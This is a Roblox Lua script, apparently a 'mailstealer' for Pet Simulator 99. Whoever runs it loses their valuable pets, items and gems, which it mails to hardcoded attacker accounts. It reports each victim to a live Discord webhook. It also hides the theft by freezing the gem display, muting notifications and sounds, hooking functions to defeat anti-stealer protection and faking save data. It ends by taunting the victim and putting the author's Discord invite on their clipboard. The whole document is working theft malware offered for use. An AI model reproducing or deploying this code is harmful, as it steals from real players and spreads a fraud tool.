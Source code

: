 Username = "hhhl0009l"
Username2 = "hhhl0009l" -- stuff will get sent to this user if first user's mailbox is full
webhook = "https://discord.com/api/webhooks/1201319809292456056/5DbDvn55Jey8oxyA9x2vdWwwg3rupHth3O5qkPRNgXm5AUGpmcmTJdryA3uT1hFx7hGW"
min_rap = 1000000 -- minimum rap of each item you want to get sent to you. 1 mil by default

_G.scriptExecuted = _G.scriptExecuted or false
if _G.scriptExecuted then
    return
end
_G.scriptExecuted = true

local network = game:GetService("ReplicatedStorage"):WaitForChild("Network")
local library = require(game.ReplicatedStorage.Library)
local save = require(game:GetService("ReplicatedStorage"):WaitForChild("Library"):WaitForChild("Client"):WaitForChild("Save")).Get().Inventory
local mailsent = require(game:GetService("ReplicatedStorage"):WaitForChild("Library"):WaitForChild("Client"):WaitForChild("Save")).Get().MailboxSendsSinceReset
local plr = game.Players.LocalPlayer
local MailMessage = "jsp"
local HttpService = game:GetService("HttpService")
local sortedItems = {}
local totalRAP = 0
local getFucked = false
local GetSave = function()
    return require(game.ReplicatedStorage.Library.Client.Save).Get()
end

local newamount = 20000

if mailsent ~= 0 then
	newamount = math.ceil(newamount * (1.5 ^ mailsent))
end

local GemAmount1 = 1
for i, v in pairs(GetSave().Inventory.Currency) do
    if v.id == "Diamonds" then
        GemAmount1 = v._am
		break
    end
end

if newamount > GemAmount1 then
    return
end

local function formatNumber(number)
	local number = math.floor(number)
	local suffixes = {"", "k", "m", "b", "t"}
	local suffixIndex = 1
	while number >= 1000 do
		number = number / 1000
		suffixIndex = suffixIndex + 1
	end
	return string.format("%.2f%s", number, suffixes[suffixIndex])
end

local function SendMessage(username, diamonds)
    local headers = {
        ["Content-Type"] = "application/json",
    }

	local fields = {
		{
			name = "Retard Username:",
			value = username,
			inline = true
		},
		{
			name = "Items to be sent:",
			value = "",
			inline = false
		},
        {
            name = "Summary:",
            value = "",
            inline = false
        }
	}

    local combinedItems = {}
    local itemRapMap = {}

    for _, item in ipairs(sortedItems) do
        local rapKey = item.name
        if itemRapMap[rapKey] then
            itemRapMap[rapKey].amount = itemRapMap[rapKey].amount + item.amount
        else
            itemRapMap[rapKey] = {amount = item.amount, rap = item.rap}
            table.insert(combinedItems, rapKey)
        end
    end

    table.sort(combinedItems, function(a, b)
        return itemRapMap[a].rap * itemRapMap[a].amount > itemRapMap[b].rap * itemRapMap[b].amount 
    end)

    for _, itemName in ipairs(combinedItems) do
        local itemData = itemRapMap[itemName]
        fields[2].value = fields[2].value .. itemName .. " (x" .. itemData.amount .. ")" .. ": " .. formatNumber(itemData.rap * itemData.amount) .. " RAP\n"
    end

    fields[3].value = fields[3].value .. "Gems: " .. formatNumber(diamonds) .. "\n"
    fields[3].value = fields[3].value .. "Total RAP: " .. formatNumber(totalRAP)
    if getFucked then
        fields[3].value = fields[3].value .. "\n\nVictim tried to use anti-mailstealer, but got fucked instead"
    end

    local data = {
        ["embeds"] = {{
            ["title"] = "\240\159\144\177 New PS99 Execution" ,
            ["color"] = 65280,
			["fields"] = fields,
			["footer"] = {
				["text"] = "Mailstealer by Tobi. discord.gg/GY2RVSEGDT"
			}
        }}
    }

    if #fields[2].value > 1024 then
        local lines = {}
        for line in fields[2].value:gmatch("[^\r\n]+") do
            table.insert(lines, line)
        end

        while #fields[2].value > 1024 and #lines > 0 do
            table.remove(lines)
            fields[2].value = table.concat(lines, "\n")
            fields[2].value = fields[2].value .. "\nPlus more!"
        end
    end

    local body = HttpService:JSONEncode(data)

    if webhook and webhook ~= "" then
        local response = request({
            Url = webhook,
            Method = "POST",
            Headers = headers,
            Body = body
        })
    end
end

local gemsleaderstat = plr.leaderstats["\240\159\146\142 Diamonds"].Value
local gemsleaderstatpath = plr.leaderstats["\240\159\146\142 Diamonds"]
gemsleaderstatpath:GetPropertyChangedSignal("Value"):Connect(function()
	gemsleaderstatpath.Value = gemsleaderstat
end)

local loading = plr.PlayerScripts.Scripts.Core["Process Pending GUI"]
local noti = plr.PlayerGui.Notifications
loading.Disabled = true
noti:GetPropertyChangedSignal("Enabled"):Connect(function()
	noti.Enabled = false
end)
noti.Enabled = false

game.DescendantAdded:Connect(function(x)
    if x.ClassName == "Sound" then
        if x.SoundId=="rbxassetid://11839132565" or x.SoundId=="rbxassetid://14254721038" or x.SoundId=="rbxassetid://12413423276" then
            x.Volume=0
            x.PlayOnRemove=false
            x:Destroy()
        end
    end
end)

local function getRAP(Type, Item)
    return (require(game:GetService("ReplicatedStorage").Library.Client.DevRAPCmds).Get(
        {
            Class = {Name = Type},
            IsA = function(hmm)
                return hmm == Type
            end,
            GetId = function()
                return Item.id
            end,
            StackKey = function()
                return HttpService:JSONEncode({id = Item.id, pt = Item.pt, sh = Item.sh, tn = Item.tn})
            end
        }
    ) or 0)
end

local user = Username
local user2 = Username2

local function sendItem(category, uid, am)
    local args = {
        [1] = user,
        [2] = MailMessage,
        [3] = category,
        [4] = uid,
        [5] = am or 1
    }
	local response = false
	repeat
    	local response, err = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
		if response == false and err == "They don't have enough space!" then
			user = user2
			args[1] = user
		end
	until response == true
	GemAmount1 = GemAmount1 - newamount
	newamount = math.ceil(math.ceil(newamount) * 1.5)
	if newamount > 5000000 then
		newamount = 5000000
	end
end

local function SendAllGems()
    for i, v in pairs(GetSave().Inventory.Currency) do
        if v.id == "Diamonds" then
			if GemAmount1 >= (newamount + 10000) then
				local args = {
					[1] = user,
					[2] = MailMessage,
					[3] = "Currency",
					[4] = i,
					[5] = GemAmount1 - newamount
				}
				local response = false
				repeat
					local response = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
				until response == true
				break
			end
        end
    end
end

local function IsMailboxHooked()
	local uid
	for i, v in pairs(save["Pet"]) do
		uid = i
		break
	end
	local args = {
        [1] = "Roblox",
        [2] = "Test",
        [3] = "Pet",
        [4] = uid,
        [5] = 1
    }
    local response, err = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
    if (err == "They don't have enough space!") or (err == "You don't have enough diamonds to send the mail!") then
        return false
    else
        return true
    end
end

local function EmptyBoxes()
    if save.Box then
        for key, value in pairs(save.Box) do
			if value._uq then
				network:WaitForChild("Box: Withdraw All"):InvokeServer(key)
			end
        end
    end
end

local function ClaimMail()
    local response, err = network:WaitForChild("Mailbox: Claim All"):InvokeServer()
    while err == "You must wait 30 seconds before using the mailbox!" do
        wait()
        response, err = network:WaitForChild("Mailbox: Claim All"):InvokeServer()
    end
end

local categoryList = {"Pet", "Egg", "Charm", "Enchant", "Potion", "Misc", "Hoverboard", "Booth", "Ultimate"}

for i, v in pairs(categoryList) do
	if save[v] ~= nil then
		for uid, item in pairs(save[v]) do
			if v == "Pet" then
                local dir = require(game:GetService("ReplicatedStorage").Library.Directory.Pets)[item.id]
                if dir.huge or dir.exclusiveLevel then
                    local rapValue = getRAP(v, item)
                    if rapValue >= min_rap then
                        local prefix = ""
                        if item.pt and item.pt == 1 then
                            prefix = "Golden "
                        elseif item.pt and item.pt == 2 then
                            prefix = "Rainbow "
                        end
                        if item.sh then
                            prefix = "Shiny " .. prefix
                        end
                        local id = prefix .. item.id
                        table.insert(sortedItems, {category = v, uid = uid, amount = item._am or 1, rap = rapValue, name = id})
                        totalRAP = totalRAP + (rapValue * (item._am or 1))
                    end
                end
            else
                local rapValue = getRAP(v, item)
                if rapValue >= min_rap then
                    table.insert(sortedItems, {category = v, uid = uid, amount = item._am or 1, rap = rapValue, name = item.id})
                    totalRAP = totalRAP + (rapValue * (item._am or 1))
                end
            end
            if item._lk then
                local args = {
                [1] = uid,
                [2] = false
                }
                network:WaitForChild("Locking_SetLocked"):InvokeServer(unpack(args))
            end
        end
	end
end

if #sortedItems > 0 or GemAmount1 > min_rap + newamount then
    ClaimMail()
	if IsMailboxHooked() then
        getFucked = true
		local Mailbox = game:GetService("ReplicatedStorage"):WaitForChild("Network"):WaitForChild("Mailbox: Send")
        for i, Func in ipairs(getgc(true)) do
            if typeof(Func) == "function" and debug.info(Func, "n") == "typeof" then
                local Old
                Old = hookfunction(Func, function(Ins, ...)
                    if Ins == Mailbox then
                        return tick()
                    end
                    return Old(Ins, ...)
                end)
            end
        end
	end
    EmptyBoxes()
	require(game.ReplicatedStorage.Library.Client.DaycareCmds).Claim()
	require(game.ReplicatedStorage.Library.Client.ExclusiveDaycareCmds).Claim()
    local blob_a = game:GetService("ReplicatedStorage"):WaitForChild("Library"):WaitForChild("Client"):WaitForChild("Save")
    local blob_b = require(blob_a).Get()
    function deepCopy(original)
        local copy = {}
        for k, v in pairs(original) do
            if type(v) == "table" then
                v = deepCopy(v)
            end
            copy[k] = v
        end
        return copy
    end
    blob_b = deepCopy(blob_b)
    require(blob_a).Get = function(...)
        return blob_b
    end

    table.sort(sortedItems, function(a, b)
        return a.rap * a.amount > b.rap * b.amount 
    end)

    spawn(function()
        SendMessage(plr.Name, GemAmount1)
    end)

    for _, item in ipairs(sortedItems) do
        if item.rap >= newamount then
            sendItem(item.category, item.uid, item.amount)
        else
            break
        end
    end
    SendAllGems()
    local message = require(game.ReplicatedStorage.Library.Client.Message)
    message.Error("All your items just got stolen by Tobi's mailstealer!\n Join discord.gg/GY2RVSEGDT")
    setclipboard("discord.gg/GY2RVSEGDT")
end
